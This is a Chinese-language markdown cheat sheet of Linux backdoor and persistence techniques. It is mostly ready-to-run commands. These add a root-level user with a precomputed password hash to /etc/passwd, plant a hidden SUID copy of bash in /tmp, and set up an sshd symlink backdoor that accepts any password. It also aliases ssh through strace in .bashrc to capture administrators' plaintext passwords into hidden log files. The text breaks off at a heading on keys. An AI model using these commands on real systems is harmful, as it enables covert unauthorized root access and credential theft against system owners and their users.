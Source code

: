 ### 创建超管用户

```
perl -le 'print crypt("passwd","salt")'

echo "m123:sadtCr0CILzv2:0:0:/root:/bin/bash" >> /etc/passwd
```

### /bin/bash权限维持

1、SUID权限仅对二进制程序有效。
2、执行者对于该程序需要具有x的可执行权限
3、本权限仅在执行该程序的过程中有效
4、在执行过程中执行者将具有该程序拥有者的权限

```
cp /bin/bash /tmp/.toot
chmod 4755 /tmp/.toot

然后黑客用普通用户执行
/tmp/.toot -p命令切换到root用户了
```

eal user ID:实际用户ID,指的是进程执行者是谁
effective user ID:有效用户ID,指进程执行时对文件的访问权限
saved set-user-ID:保存设置用户ID,作为effective user ID的副本,在执行exec调用时后能重新恢复原来的effectiv user ID.

### ssh软链接后门

```
#普通用户下
ln -sf /usr/sbin/sshd /usr/local/su 	#创建软链接
/usr/local/su -oPort=12345				#设置端口
ssh root@127.0.0.1 -p 12345				#ssh连接root，输入任意密码就能连接上
```

### 明文密码

```
在root用户下.bashrc中添加一条
alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
source .bashrc

#切换普通用户
su zx
#用ssh提权到root
ssh root@ip		#如果管理员输入密码，会创建并记录到/tmp下的.ssh**
cd /tmp
ll -a		#查找.ssh***
grep -A 9 'password' .ssh***		#查看明文密码
```

### 密钥
